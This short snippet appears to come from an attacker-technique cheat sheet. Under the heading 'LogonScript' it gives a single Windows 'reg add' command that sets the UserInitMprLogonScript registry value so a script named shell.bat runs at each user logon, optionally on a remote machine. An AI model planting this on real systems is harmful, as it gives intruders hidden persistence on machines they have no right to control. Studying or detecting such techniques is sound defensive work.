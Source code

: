 # LogonScript

`C:\> reg add [\\<IP>\]HKCU\Environment /v UserInitMprLogonScript /d "C:\path\to\shell.bat" /t REG_SZ /f`
